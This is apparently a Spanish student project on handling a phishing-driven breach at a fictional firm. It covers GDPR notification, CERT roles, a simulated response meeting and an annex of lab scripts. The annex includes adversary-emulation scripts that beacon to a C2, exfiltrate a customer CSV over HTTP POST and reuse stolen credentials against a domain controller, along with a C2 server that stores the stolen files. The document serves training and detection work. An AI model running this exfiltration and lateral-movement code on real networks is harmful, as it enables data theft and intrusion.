En el plano legal hay que distinguir dos obligaciones. La **notificación a la AEPD** (art. 33 del RGPD) procede **cuando la brecha pueda suponer un riesgo para los derechos y libertades de las personas** —no de forma automática ante cualquier incidente— y se hace sin dilación indebida y, cuando sea posible, en un plazo máximo de **72 horas** desde que se tiene conocimiento. Si además el riesgo es **alto**, hay que **comunicar la brecha a los propios afectados** (art. 34). En este caso, al haber **exfiltración confirmada de datos de clientes**, la notificación a la AEPD procede.

Por último, Nexora se apoyaría en **equipos de respuesta a incidentes (CERT/CSIRT)**. Su función es prevenir y responder a incidentes de ciberseguridad: emiten alertas y avisos tempranos, prestan soporte técnico durante la gestión, analizan amenazas y coordinan la respuesta a escala nacional o sectorial. Se recurriría al menos a dos:

- **INCIBE-CERT (España).** Equipo de referencia para ciudadanos y empresas; ofrece soporte ante incidentes, avisos de seguridad y recursos de concienciación.
- **CCN-CERT (España).** Del Centro Criptológico Nacional; da servicio al sector público y gestiona los incidentes de especial gravedad.

A escala internacional existen además referencias como **ENISA** (Agencia de la Unión Europea para la Ciberseguridad), que coordina y publica guías y buenas prácticas, y **CISA** (Estados Unidos), que emite alertas y recomendaciones ampliamente seguidas.

En resumen, la función de cada organismo:

| Organismo | Cuándo interviene / función |
|-----------|-----------------------------|
| **AEPD** | Autoridad de control: recibe la notificación de brechas de datos personales cuando procede (art. 33 RGPD) |
| **INCIBE-CERT** | Asistencia técnica ante incidentes a ciudadanos y empresas en España |
| **CCN-CERT** | Respuesta a incidentes en organismos y entidades del sector público (su ámbito) |
| **ENISA** (UE) | Coordinación, guías y buenas prácticas de ciberseguridad a nivel europeo |
| **CISA** (EE. UU.) | Alertas y recomendaciones de referencia internacional |

---

## 6. Simulación de la reunión del equipo de respuesta

Para cerrar el ciclo simulo una **reunión de crisis del equipo de respuesta** (CSIRT interno), con roles definidos —coordinador del incidente, analista/forense, administrador de sistemas, responsable de protección de datos (DPO) y dirección—. En la reunión abordo las cuatro circunstancias del enunciado y justifico la decisión en cada una:

| Circunstancia | Decisión | Justificación (resumen) |
|---------------|----------|-------------------------|
| **Aparece un segundo equipo infectado** | Elevar la gravedad a CRÍTICA, aislarlo también y revisar los inicios de sesión (evento 4624) | Indica movimiento lateral; hay que contener antes de que se extienda |
| **Indicios claros de exfiltración** | El DPO activa el procedimiento de brecha y, al existir riesgo para los afectados, se prepara la notificación a la **AEPD en 72 h** | La obligación de notificar surge cuando hay riesgo para los derechos de las personas; el plazo corre desde el conocimiento |
| **El atacante mantiene acceso persistente** | Restaurar desde un *snapshot* limpio y revocar las credenciales en el AD | Una limpieza manual no garantiza erradicar al atacante |
| **Presión de dirección por recuperar servicios** | Recuperación **por fases**, reconectando primero lo ya verificado, con MFA y macros bloqueadas | Equilibra la continuidad del negocio y la seguridad sin reabrir el incidente |

El desarrollo completo de la reunión, con el guion de cada intervención, es el siguiente:

**Incidente:** intrusión vía phishing de RRHH en Nexora S.L. con sospecha de exfiltración de datos de clientes.
**Formato:** reunión de crisis del *Equipo de Respuesta a Incidentes* (CSIRT interno). Se convoca 40 minutos después de la primera alerta de nivel 12 en Wazuh.

### Asistentes y roles
- **Coordinador del incidente (IC):** dirige la reunión y toma la decisión final.
- **Analista SOC / Forense:** aporta la evidencia técnica (Wazuh, Sysmon, logs).
- **Administrador de sistemas:** ejecuta la contención (firewall, AD, snapshots).
- **Responsable de protección de datos (DPO):** valora la obligación legal (RGPD/AEPD).
- **Dirección:** prioriza la continuidad del negocio.

### Situación de partida (lo que ya se sabe)
El analista resume: la usuaria `rrhh.ana` picó en un phishing, entregó credenciales en un portal falso y, desde su equipo (PC-RRHH-01), se han ejecutado comandos de reconocimiento y se ha detectado una conexión saliente a la IP `10.10.10.100` con un patrón de *beacon* y un POST con el CSV de clientes. Wazuh ha generado 20 alertas de reconocimiento y 3 de nivel 12.

---

### Circunstancia 1 — Aparece un segundo equipo infectado

**Planteamiento:** mientras se contiene PC-RRHH-01, Wazuh lanza las mismas reglas (100200/100201) en un segundo equipo del departamento.

**Decisión:** elevar la gravedad a **CRÍTICA** y pasar de "incidente aislado" a "posible movimiento lateral". Se aísla también el segundo equipo con `respuesta-aislar.ps1` y se revisa en Wazuh qué cuentas han iniciado sesión en ambos (eventos 4624) para detectar credenciales reutilizadas.

**Justificación:** dos equipos con el mismo patrón indican que el atacante ya se mueve por el dominio; contener solo el primero dejaría la puerta abierta. Aislar antes de investigar a fondo prioriza frenar la propagación (contención > análisis cuando hay expansión activa).

---

### Circunstancia 2 — Hay indicios claros de exfiltración de datos personales

**Planteamiento:** el análisis de `analizar-conexiones.py` confirma un POST con `exfil_clientes.csv` hacia el atacante. Son datos personales de clientes (RGPD).

**Decisión:** el DPO activa el procedimiento de **brecha de datos**. Se documenta qué datos salieron y a quién afectan, y se prepara la **notificación a la AEPD dentro de las 72 h** (art. 33 RGPD) por existir riesgo para los afectados. En paralelo se valora informar a los clientes afectados (art. 34).

**Justificación:** la obligación legal no depende de haber resuelto el incidente técnico; el plazo de 72 h corre desde el conocimiento. Separar la respuesta técnica (sistemas) de la respuesta legal (datos) evita que una retrase a la otra.

---

### Circunstancia 3 — El atacante mantiene acceso persistente

**Planteamiento:** tras aislar el equipo, el forense encuentra una tarea programada sospechosa (persistencia) que relanzaría el *beacon*.

**Decisión:** **no limpiar "a mano" y devolver el equipo a producción.** Se decide **restaurar desde un snapshot limpio anterior al incidente** y, antes de reconectar, **revocar y forzar el cambio de la contraseña de `rrhh.ana` en el Active Directory** (y de cualquier cuenta usada en los equipos afectados). Solo se reconecta a la red tras verificar que no quedan conexiones al C2.

**Justificación:** con persistencia confirmada, una limpieza manual no garantiza erradicar al atacante; restaurar desde snapshot es la vía fiable. Revocar credenciales cierra el vector de reentrada aunque el atacante conserve las contraseñas robadas.

---

### Circunstancia 4 — Dirección presiona para recuperar los servicios ya

**Planteamiento:** dirección exige reactivar los equipos de RRHH de inmediato porque se está parando el trabajo (nóminas, contratación).

**Decisión:** el IC mantiene la contención hasta completar erradicación y verificación, pero ofrece una **recuperación por fases**: primero los equipos ya restaurados y verificados, con MFA y macros bloqueadas; los no verificados siguen aislados. Se da a dirección una estimación de tiempos y un canal de actualización cada hora.

**Justificación:** reconectar sin verificar reabriría el incidente y multiplicaría el coste (técnico y legal). La recuperación por fases equilibra la presión de negocio con la seguridad, y comunicar plazos reduce la presión sin ceder en el criterio técnico. Es el principio de **ciberresiliencia**: recuperar de forma controlada, no a cualquier precio.

---

### Cierre de la reunión — acuerdos
1. Gravedad **CRÍTICA**; incidente con movimiento lateral y brecha de datos.
2. Contención: equipos afectados aislados y atacante bloqueado en firewall.
3. Erradicación: restauración desde snapshot + revocación de credenciales en AD.
4. Legal: notificación a la **AEPD en 72 h** y valoración de aviso a clientes.
5. Recuperación **por fases** con MFA y macros bloqueadas.
6. Notificación a **INCIBE-CERT** como apoyo.
7. *Lecciones aprendidas*: reforzar formación antiphishing, aplicar mínimo privilegio y afinar las reglas de Wazuh.

---

## Herramientas utilizadas

| Herramienta | Uso en el trabajo |
|-------------|-------------------|
| VirtualBox | Virtualización de todo el laboratorio |
| Windows Server 2025 / Windows 11 / Ubuntu 26.04 / Kali | Máquinas del escenario |
| Wazuh 4.9.2 | SIEM: indexador, gestor y panel de detección |
| Sysmon + configuración de SwiftOnSecurity | Telemetría detallada del endpoint |
| GoPhish 0.12.1 + MailHog | Campaña de phishing y captura del correo |
| PowerShell | Emulación del ataque (sin malware real) |
| Wireshark / tshark | Captura y análisis del tráfico (beacons y exfiltración a nivel de paquete) |
| VirusTotal + AbuseIPDB + Shodan | OSINT de indicadores de compromiso (reputación y superficie de exposición) |
| Python 3 | Scripts propios de análisis e investigación |

---

## Anexo A: instalación (comandos reales)

**Wazuh (servidor SRV-SIEM).** Instalación todo-en-uno; previamente se amplió el disco y se ajustó `vm.max_map_count`:

```bash
sudo lvextend -l +100%FREE /dev/ubuntu-vg/ubuntu-lv && sudo resize2fs /dev/ubuntu-vg/ubuntu-lv
sudo sysctl -w vm.max_map_count=262144
curl -sO https://packages.wazuh.com/4.9/wazuh-install.sh
sudo bash ./wazuh-install.sh -a -i -o
```

**Agente de Wazuh + Sysmon (víctima PC-RRHH-01).** Se instala Sysmon con la configuración de SwiftOnSecurity, se registra el agente contra el gestor y se añade el canal de Sysmon a su configuración:

```powershell
msiexec /i wazuh-agent-4.9.2-1.msi WAZUH_MANAGER=10.10.10.20 WAZUH_AGENT_NAME=PC-RRHH-01
Start-Service WazuhSvc
```

**Agente de Wazuh (controlador de dominio DC-NEXORA).** El agente de Windows ya recoge el canal *Security* (eventos 4624/4634) por defecto, así que basta instalarlo apuntando al gestor para que los inicios de sesión del dominio lleguen al SIEM:

```powershell
msiexec /i wazuh-agent-4.9.2-1.msi WAZUH_MANAGER=10.10.10.20 WAZUH_AGENT_NAME=DC-NEXORA
Start-Service WazuhSvc
```

**Atacante (Kali).** GoPhish (panel de administración en `https://127.0.0.1:3333` y servidor de phishing en el puerto 80) y MailHog como buzón trampa (SMTP en el 1025 y web en el 8025).

## Anexo B: scripts propios (código completo)

Todos los scripts se han escrito a medida para este trabajo. Las **claves API** se pasan por variables de entorno; no figuran en el código ni se suben al repositorio.

### `deploy-victima.ps1`

*Prepara la víctima: Sysmon + auditoría + agente Wazuh (recurso compartido con mínimo privilegio).*

```powershell
<#
 deploy-victima.ps1 - Prepara la VICTIMA (PC-RRHH-01) para generar telemetria:
 Sysmon + auditoria avanzada + recurso compartido "sensible" + agente Wazuh.
 Ejecutar como Administrador SOLO en la VM del lab aislado (10.10.10.0/24).
 Uso: .\deploy-victima.ps1 -WazuhManager 10.10.10.20
#>
param(
    [string]$WazuhManager = "10.10.10.20",
    [string]$WorkDir      = "C:\Lab",
    [string]$ShareName    = "RRHH_Compartido"
)
$ErrorActionPreference = "Stop"

# 0) Requiere privilegios de administrador.
if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()
    ).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    throw "Ejecuta este script como Administrador."
}

New-Item -ItemType Directory -Force -Path $WorkDir,"$WorkDir\tools" | Out-Null

# 1) Sysmon con config de referencia (SwiftOnSecurity): fuente n1 de evidencias.
Invoke-WebRequest "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "$WorkDir\tools\Sysmon.zip" -UseBasicParsing
Expand-Archive "$WorkDir\tools\Sysmon.zip" "$WorkDir\tools\Sysmon" -Force
Invoke-WebRequest "https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml" -OutFile "$WorkDir\tools\sysmonconfig.xml" -UseBasicParsing
& "$WorkDir\tools\Sysmon\Sysmon64.exe" -accepteula -i "$WorkDir\tools\sysmonconfig.xml"

# 2) Auditoria avanzada: inicios de sesion (4624/4625), procesos (4688 con cmdline) y objetos.
auditpol /set /category:"Logon/Logoff"     /success:enable /failure:enable | Out-Null
auditpol /set /category:"Detailed Tracking" /success:enable /failure:enable | Out-Null
auditpol /set /category:"Object Access"     /success:enable /failure:enable | Out-Null
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" `
    /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f | Out-Null

# 3) Recurso compartido "sensible" con CSV de clientes FICTICIOS y minimo privilegio.
$sharePath = "$WorkDir\$ShareName"
New-Item -ItemType Directory -Force -Path $sharePath | Out-Null
@"
id,nombre,email,telefono,dni_ficticio,saldo
1001,Ana Prueba,ana.prueba@nexora.lab,600000001,00000001X,1240.50
1002,Luis Demo,luis.demo@nexora.lab,600000002,00000002Y,980.00
1003,Marta Test,marta.test@nexora.lab,600000003,00000003Z,3150.75
1004,Juan Ejemplo,juan.ejemplo@nexora.lab,600000004,00000004W,540.20
1005,Sara Ficticia,sara.ficticia@nexora.lab,600000005,00000005V,7820.00
"@ | Set-Content "$sharePath\clientes_CONFIDENCIAL.csv" -Encoding UTF8

# Solo lectura a usuarios autenticados (SID S-1-5-11), sin "Everyone/FullAccess".
if (-not (Get-SmbShare -Name $ShareName -ErrorAction SilentlyContinue)) {
    New-SmbShare -Name $ShareName -Path $sharePath -ReadAccess "S-1-5-11" | Out-Null
}
$acl = Get-Acl $sharePath
$acl.SetAccessRuleProtection($true, $false)
$acl.AddAccessRule((New-Object System.Security.AccessControl.FileSystemAccessRule(
    "S-1-5-11","ReadAndExecute","ContainerInherit,ObjectInherit","None","Allow")))
Set-Acl $sharePath $acl

# 4) Agente Wazuh apuntando al SIEM + lectura del canal de Sysmon.
Invoke-WebRequest "https://packages.wazuh.com/4.x/windows/wazuh-agent-4.9.2-1.msi" -OutFile "$WorkDir\tools\wazuh-agent.msi" -UseBasicParsing
Start-Process msiexec.exe -Wait -ArgumentList "/i `"$WorkDir\tools\wazuh-agent.msi`" /q WAZUH_MANAGER=`"$WazuhManager`" WAZUH_AGENT_NAME=`"PC-RRHH-01`""
$ossecConf = "C:\Program Files (x86)\ossec-agent\ossec.conf"
$bloque = @"
  <localfile>
    <location>Microsoft-Windows-Sysmon/Operational</location>
    <log_format>eventchannel</log_format>
  </localfile>
"@
(Get-Content $ossecConf -Raw) -replace "</ossec_config>", "$bloque`n</ossec_config>" | Set-Content $ossecConf -Encoding UTF8
& "C:\Program Files (x86)\ossec-agent\bin\wazuh-control.exe" restart

Write-Host "[+] Victima lista. Verifica en Wazuh que PC-RRHH-01 aparece como Activo." -ForegroundColor Green
```

### `emular-ataque.ps1`

*Emulación del adversario: reconocimiento → acceso → beacon → exfiltración.*

```powershell
<#
 emular-ataque.ps1 - Emulacion de adversario (Nexora, PC-RRHH-01).
 Reproduce el comportamiento post-explotacion (reconocimiento, acceso,
 beacon y exfiltracion) con comandos legitimos de Windows: NO es malware.
 Ejecutar como Administrador. C2 = Kali 10.10.10.100 (c2-server.py en :8000).
#>
param([string]$C2 = "10.10.10.100")

# Lab aislado: salida directa (sin proxy/WPAD) para que beacon y exfil lleguen al C2.
[System.Net.WebRequest]::DefaultWebProxy = $null
$csv = "C:\Lab\RRHH_Compartido\clientes_CONFIDENCIAL.csv"

Write-Host "[*] Fase 1: Reconocimiento" -ForegroundColor Yellow
cmd /c "whoami"; cmd /c "net user"; cmd /c "net group ""Domain Admins"" /domain" 2>$null
cmd /c "net share"; cmd /c "systeminfo" | Out-Null; cmd /c "ipconfig /all" | Out-Null

Write-Host "[*] Fase 2: Acceso al CSV de clientes" -ForegroundColor Yellow
Get-Content $csv

Write-Host "[*] Fase 3: Beacon periodico a $C2" -ForegroundColor Yellow
1..4 | ForEach-Object {
    Invoke-WebRequest "http://$C2:8000/beacon?id=$_" -UseBasicParsing -TimeoutSec 5 | Out-Null
    Start-Sleep -Seconds 2
}

Write-Host "[*] Fase 4: Exfiltracion del CSV a $C2" -ForegroundColor Yellow
Invoke-WebRequest "http://$C2:8000/exfil_clientes.csv" -Method POST -InFile $csv -UseBasicParsing | Out-Null
Write-Host "[+] Emulacion completada. Revisa las alertas en Wazuh." -ForegroundColor Green
```

### `movimiento-lateral.ps1`

*Movimiento lateral: uso de credenciales robadas contra el DC (T1078/T1021.002).*

```powershell
<#
 movimiento-lateral.ps1 - Movimiento lateral con credenciales robadas.
 Reutiliza la credencial comprometida (rrhh.ana) desde PC-RRHH-01 para
 autenticarse contra el DC: genera un 4624 tipo 3 en DC-NEXORA.
 Nativo de Windows (net use/view), NO malware. MITRE T1078 + T1021.002.
 Uso: .\movimiento-lateral.ps1 -DC 10.10.10.10
#>
param(
    [string]$DC       = "10.10.10.10",
    [string]$Usuario  = "NEXORA\rrhh.ana",
    [string]$Password = "Hola_1234"
)

Write-Host "[*] Autenticando contra el DC $DC como $Usuario" -ForegroundColor Yellow
net use "\\$DC\IPC$" /user:$Usuario $Password   # provoca el 4624 (tipo 3) en el DC

Write-Host "[*] Enumerando recursos del DC:" -ForegroundColor Yellow
net view "\\$DC"

Write-Host "[*] Probando acceso al administrativo \\$DC\C$ :" -ForegroundColor Yellow
cmd /c "dir \\$DC\C$" > $null 2>&1
if ($LASTEXITCODE -eq 0) { Write-Host "    [!] ACCESO CONCEDIDO a C$ (cuenta con privilegios admin)" -ForegroundColor Red }
else { Write-Host "    [i] ACCESO DENEGADO a C$ (esperado: rrhh.ana no es admin)" -ForegroundColor DarkGray }

net use "\\$DC\IPC$" /delete 2>$null
Write-Host "[+] Hecho. En el DC: evento 4624 (tipo 3) de rrhh.ana desde 10.10.10.50." -ForegroundColor Green
```

### `c2-server.py`

*Servidor C2 que recibe y guarda el fichero exfiltrado (demuestra la exfiltración).*

```python
#!/usr/bin/env python3
"""
c2-server.py  -  Servidor de mando y control (C2) simulado
--------------------------------------------------------------------
Proyecto: TP Gestion de incidente - Nexora S.L.  (Fer1399)
Apartado 3: Investigacion y analisis.

Sustituye a `python3 -m http.server`, que NO almacena los POST. Este
servidor:
  - Responde a los beacon (GET /beacon?id=...).
  - RECIBE Y GUARDA en disco el fichero exfiltrado (POST), registrando
    los bytes recibidos. Asi la exfiltracion queda DEMOSTRADA (el CSV
    llega y se almacena), no solo indicada por una peticion.

Escribe un log en formato compatible con `analizar-conexiones.py`
(incluye los bytes en las peticiones POST).

USO (en el atacante, Kali 10.10.10.100):
    python3 c2-server.py 8000
Los ficheros recibidos se guardan en ./recibidos/ y el log en ./c2.log
"""
import sys, os, datetime
from http.server import BaseHTTPRequestHandler, HTTPServer

DIR_RECIBIDOS = "recibidos"
LOG = "c2.log"


def registrar(ip, metodo, ruta, codigo, tam):
    ts = datetime.datetime.now().strftime("%d/%b/%Y %H:%M:%S")
    linea = f'{ip} - - [{ts}] "{metodo} {ruta} HTTP/1.1" {codigo} {tam}'
    print(linea)
    with open(LOG, "a", encoding="utf-8") as f:
        f.write(linea + "\n")


class C2(BaseHTTPRequestHandler):
    def _responder(self, cuerpo=b"ok"):
        self.send_response(200)
        self.send_header("Content-Length", str(len(cuerpo)))
        self.end_headers()
        self.wfile.write(cuerpo)

    def do_GET(self):
        self._responder(b"beacon-ack")
        registrar(self.client_address[0], "GET", self.path, 200, "-")

    def do_POST(self):
        n = int(self.headers.get("Content-Length", 0))
        datos = self.rfile.read(n)
        os.makedirs(DIR_RECIBIDOS, exist_ok=True)
        nombre = os.path.basename(self.path) or "exfil.bin"
        sello = datetime.datetime.now().strftime("%Y%m%d_%H%M%S")
        destino = os.path.join(DIR_RECIBIDOS, f"{sello}_{nombre}")
        with open(destino, "wb") as f:
            f.write(datos)
        self._responder(b"recibido")
        # El tamano (bytes) es la prueba de que el fichero llego y se guardo
        registrar(self.client_address[0], "POST", self.path, 200, len(datos))
        print(f"    [+] {len(datos)} bytes guardados en {destino}")

    def log_message(self, *a):   # silenciamos el log por defecto (usamos el nuestro)
        pass


if __name__ == "__main__":
    puerto = int(sys.argv[1]) if len(sys.argv) > 1 else 8000
    registrar("0.0.0.0", "INFO", f"C2 escuchando en :{puerto}", "-", "-")
    try:
        HTTPServer(("0.0.0.0", puerto), C2).serve_forever()
    except KeyboardInterrupt:
        print("\n[*] C2 detenido.")
```

### `respuesta-aislar.ps1`

*Respuesta: evidencia volátil → bloqueo → aislamiento → sellado SHA-256.*

```powershell
<#
 respuesta-aislar.ps1 - Respuesta y contencion en PC-RRHH-01 (lab Nexora).
 Orden: 1) evidencia volatil  2) bloqueo del C2  3) aislamiento  4) sellado SHA-256.
 Ejecutar como Administrador y en consola LOCAL (el aislamiento corta la red).
 Uso: .\respuesta-aislar.ps1 -IPAtacante 10.10.10.100
#>
param(
    [string]$IPAtacante = "10.10.10.100",
    [string]$CarpetaEvidencias = "C:\Evidencias_Incidente"
)
$ErrorActionPreference = "Continue"
$dir = Join-Path $CarpetaEvidencias (Get-Date -Format "yyyyMMdd_HHmmss")
New-Item -ItemType Directory -Force -Path $dir | Out-Null
function Log($t){ $l="[{0}] {1}" -f (Get-Date -Format HH:mm:ss),$t; Write-Host $l; Add-Content "$dir\respuesta.log" $l }

# PASO 1 - Evidencia volatil (primero: se pierde al aislar/apagar).
Log "PASO 1: evidencia volatil"
Get-NetTCPConnection -EA SilentlyContinue | Select State,LocalAddress,LocalPort,RemoteAddress,RemotePort,OwningProcess |
    Sort RemoteAddress | Export-Csv -NoTypeInformation "$dir\conexiones.csv"
Get-NetTCPConnection -EA SilentlyContinue | Where { $_.RemoteAddress -eq $IPAtacante } | Out-File "$dir\conexiones_atacante.txt"
Get-Process | Select Id,ProcessName,Path,StartTime | Export-Csv -NoTypeInformation "$dir\procesos.csv"
Get-ScheduledTask | Select TaskName,State,TaskPath | Export-Csv -NoTypeInformation "$dir\tareas_programadas.csv"
quser 2>$null | Out-File "$dir\sesiones.txt"; arp -a | Out-File "$dir\arp.txt"

# PASO 2 - Bloqueo del atacante en el firewall (entrada y salida).
Log "PASO 2: bloqueo de $IPAtacante en el firewall"
New-NetFirewallRule -DisplayName "IR-BLOQUEO-ATACANTE-OUT" -Direction Outbound -RemoteAddress $IPAtacante -Action Block -Profile Any -EA SilentlyContinue | Out-Null
New-NetFirewallRule -DisplayName "IR-BLOQUEO-ATACANTE-IN"  -Direction Inbound  -RemoteAddress $IPAtacante -Action Block -Profile Any -EA SilentlyContinue | Out-Null

# PASO 3 - Aislamiento: deshabilitar adaptadores activos.
Log "PASO 3: aislamiento de red"
Get-NetAdapter | Where { $_.Status -eq "Up" } | ForEach-Object {
    Log "  deshabilitando $($_.Name)"; Disable-NetAdapter -Name $_.Name -Confirm:$false -EA SilentlyContinue
}

# PASO 4 - Sellado SHA-256 (cerrar el log ANTES de hashear; SHA256SUMS.txt se excluye).
Log "PASO 4: sellado de evidencia. Siguiente (manual): revocar rrhh.ana en AD,"
Log "restaurar desde snapshot limpio y notificar (AEPD/CERT). === FIN ==="
Get-ChildItem $dir -File | Where { $_.Name -ne "SHA256SUMS.txt" } | ForEach-Object {
    "{0}  {1}" -f (Get-FileHash $_.FullName -Algorithm SHA256).Hash, $_.Name
} | Out-File "$dir\SHA256SUMS.txt"
Write-Host "[+] Evidencia sellada en: $dir" -ForegroundColor Green
```

### `generar-iocs.py`

*Calcula los hashes SHA-256 de las evidencias y genera la tabla de IOCs.*

```python
#!/usr/bin/env python3
"""
generar-iocs.py  -  Calculo de hashes e inventario de IOCs/evidencias
--------------------------------------------------------------------
Proyecto: TP Gestion de incidente - Nexora S.L.  (Fer1399)
Apartado 3: Investigacion y analisis  /  Preservacion de integridad.

Recorre una carpeta de evidencias, calcula MD5 y SHA-256 de cada
fichero y genera:
  - iocs.csv        (tabla de indicadores de compromiso)
  - iocs.md         (mismo listado en Markdown para la memoria)

El SHA-256 es la "huella" que garantiza la INTEGRIDAD de la evidencia
(funcion hash del apartado 1) y el que se consulta en VirusTotal.

USO:
    python3 generar-iocs.py /ruta/a/evidencias
    python3 generar-iocs.py .            (carpeta actual)
"""
import sys, os, hashlib, csv, datetime


def hashes_de(ruta: str):
    md5 = hashlib.md5()
    sha = hashlib.sha256()
    with open(ruta, "rb") as f:
        for bloque in iter(lambda: f.read(65536), b""):
            md5.update(bloque)
            sha.update(bloque)
    return md5.hexdigest(), sha.hexdigest()


def main():
    carpeta = sys.argv[1] if len(sys.argv) > 1 else "."
    if not os.path.isdir(carpeta):
        print(f"[!] No existe la carpeta: {carpeta}"); sys.exit(1)

    filas = []
    for raiz, _, ficheros in os.walk(carpeta):
        for nombre in ficheros:
            if nombre in ("iocs.csv", "iocs.md"):
                continue
            ruta = os.path.join(raiz, nombre)
            try:
                md5, sha = hashes_de(ruta)
                filas.append({
                    "fichero": os.path.relpath(ruta, carpeta),
                    "tamano_bytes": os.path.getsize(ruta),
                    "md5": md5,
                    "sha256": sha,
                })
            except Exception as e:
                print(f"[!] Error con {ruta}: {e}")

    if not filas:
        print("[!] No se encontraron ficheros."); sys.exit(0)

    # CSV
    with open("iocs.csv", "w", newline="", encoding="utf-8") as f:
        w = csv.DictWriter(f, fieldnames=["fichero", "tamano_bytes", "md5", "sha256"])
        w.writeheader(); w.writerows(filas)

    # Markdown
    fecha = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    with open("iocs.md", "w", encoding="utf-8") as f:
        f.write(f"# Tabla de IOCs / evidencias\nGenerado: {fecha}\n\n")
        f.write("| Fichero | Tamano (bytes) | SHA-256 |\n|---|---|---|\n")
        for r in filas:
            f.write(f"| {r['fichero']} | {r['tamano_bytes']} | `{r['sha256']}` |\n")

    print(f"[+] {len(filas)} evidencias procesadas.")
    print("[+] Generados: iocs.csv  e  iocs.md")
    for r in filas:
        print(f"    {r['fichero']:30}  SHA256={r['sha256']}")


if __name__ == "__main__":
    main()
```

### `cadena-custodia.py`

*Cadena de custodia por ruta absoluta, con sellado del propio libro.*

```python
#!/usr/bin/env python3
"""
cadena-custodia.py  -  Registro de cadena de custodia de evidencias
--------------------------------------------------------------------
Proyecto: TP Gestion de incidente - Nexora S.L.  (Fer1399)
Apartado 3: Investigacion y analisis  /  Cadena de custodia.

Registra cada evidencia con su SHA-256, ruta absoluta, tamano,
fecha/hora y la persona que la recoge. Mejoras frente a la version
inicial:
  - Identifica cada evidencia por su RUTA ABSOLUTA (no solo el nombre),
    de modo que dos ficheros con el mismo nombre no se confunden.
  - Controla errores: fichero inexistente o argumentos incompletos.
  - Protege el propio libro: tras cada cambio calcula el SHA-256 del
    JSON y lo guarda en `cadena-custodia.sha256`. El comando `sello`
    comprueba que el libro no se ha modificado por fuera.

USO:
    python3 cadena-custodia.py add <ruta> --quien "L.F. Arrosquipa" --desc "..."
    python3 cadena-custodia.py verify <ruta>      # la evidencia no ha cambiado
    python3 cadena-custodia.py sello               # el LIBRO no ha cambiado
    python3 cadena-custodia.py list
"""
import sys
import os
import hashlib
import json
import datetime

LIBRO = "cadena-custodia.json"
SELLO = "cadena-custodia.sha256"


def sha256_fichero(ruta):
    h = hashlib.sha256()
    with open(ruta, "rb") as f:
        for b in iter(lambda: f.read(65536), b""):
            h.update(b)
    return h.hexdigest()


def sha256_texto(txt):
    return hashlib.sha256(txt.encode("utf-8")).hexdigest()


def cargar():
    if os.path.exists(LIBRO):
        with open(LIBRO, encoding="utf-8") as f:
            return json.load(f)
    return []


def guardar(reg):
    texto = json.dumps(reg, indent=2, ensure_ascii=False)
    with open(LIBRO, "w", encoding="utf-8") as f:
        f.write(texto)
    # Sella el propio libro: su hash queda fuera, para detectar manipulaciones
    with open(SELLO, "w", encoding="utf-8") as f:
        f.write(sha256_texto(texto) + "\n")
    with open("cadena-custodia.md", "w", encoding="utf-8") as f:
        f.write("# Cadena de custodia de evidencias\n\n")
        f.write("| # | Evidencia | Ruta | SHA-256 | Tamano | Recogida por | Fecha/hora | Descripcion |\n")
        f.write("|---|---|---|---|---|---|---|---|\n")
        for i, e in enumerate(reg, 1):
            f.write(f"| {i} | {e['fichero']} | `{e['ruta']}` | `{e['sha256']}` | "
                    f"{e['tamano']} | {e['recogida_por']} | {e['fecha']} | {e['descripcion']} |\n")


def pedir_ruta():
    if len(sys.argv) < 3:
        print("[!] Falta la ruta de la evidencia.")
        sys.exit(1)
    ruta = sys.argv[2]
    if not os.path.isfile(ruta):
        print(f"[!] No existe el fichero: {ruta}")
        sys.exit(1)
    return ruta


def main():
    if len(sys.argv) < 2:
        print(__doc__)
        sys.exit(1)
    accion = sys.argv[1]
    reg = cargar()

    if accion == "add":
        ruta = pedir_ruta()
        abs_ruta = os.path.abspath(ruta)
        quien = sys.argv[sys.argv.index("--quien") + 1] if "--quien" in sys.argv else "desconocido"
        desc = sys.argv[sys.argv.index("--desc") + 1] if "--desc" in sys.argv else ""
        e = {
            "fichero": os.path.basename(ruta),
            "ruta": abs_ruta,
            "sha256": sha256_fichero(ruta),
            "tamano": os.path.getsize(ruta),
            "recogida_por": quien,
            "fecha": datetime.datetime.now().isoformat(timespec="seconds"),
            "descripcion": desc,
        }
        reg.append(e)
        guardar(reg)
        print(f"[+] Evidencia registrada: {e['fichero']}  ({abs_ruta})")
        print(f"    SHA-256: {e['sha256']}")

    elif accion == "verify":
        ruta = pedir_ruta()
        abs_ruta = os.path.abspath(ruta)
        actual = sha256_fichero(ruta)
        # Busca SOLO por ruta absoluta. No se usa el nombre como respaldo: dos
        # evidencias con el mismo nombre en carpetas distintas no deben confundirse,
        # y un respaldo por nombre podria seleccionar la entrada equivocada.
        entrada = next((e for e in reg if e["ruta"] == abs_ruta), None)
        if not entrada:
            print(f"[!] {abs_ruta} no esta en el libro de custodia.")
            return
        ok = entrada["sha256"] == actual
        print(f"[{'OK' if ok else '!!'}] {entrada['fichero']}  ({entrada['ruta']})")
        print(f"    Registrado: {entrada['sha256']}")
        print(f"    Actual:     {actual}")
        print("    => INTEGRIDAD INTACTA" if ok else "    => EVIDENCIA ALTERADA")

    elif accion == "sello":
        # Verifica que el propio LIBRO no se haya modificado por fuera
        if not (os.path.exists(LIBRO) and os.path.exists(SELLO)):
            print("[!] No hay libro o sello que comprobar.")
            return
        actual = sha256_texto(open(LIBRO, encoding="utf-8").read())
        guardado = open(SELLO, encoding="utf-8").read().strip()
        ok = actual == guardado
        print(f"[{'OK' if ok else '!!'}] Sello del libro de custodia")
        print(f"    Sellado: {guardado}")
        print(f"    Actual:  {actual}")
        print("    => LIBRO INTEGRO" if ok else "    => EL LIBRO HA SIDO MODIFICADO")

    elif accion == "list":
        if not reg:
            print("[*] Libro de custodia vacio.")
            return
        for i, e in enumerate(reg, 1):
            print(f"{i}. {e['fichero']}  ({e['fecha']}, {e['recogida_por']})")
            print(f"   Ruta:    {e['ruta']}")
            print(f"   SHA-256: {e['sha256']}")
    else:
        print(__doc__)


if __name__ == "__main__":
    main()
```

### `analizar-conexiones.py`

*Analiza el log del C2, valida el destino y suma los bytes exfiltrados.*

```python
#!/usr/bin/env python3
"""
